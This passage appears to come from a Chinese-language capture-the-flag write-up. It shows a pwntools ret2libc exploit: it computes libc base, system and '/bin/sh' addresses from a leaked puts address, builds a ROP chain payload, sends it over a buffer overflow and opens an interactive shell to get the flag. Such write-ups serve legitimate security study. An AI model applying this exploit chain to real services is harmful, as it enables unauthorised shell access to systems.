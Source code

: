 ![ret2libc-libcsearch](./assets/ret2libc-libcsearch.png)

构建exploit2:

~~~python
base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~

运行得到**flag**
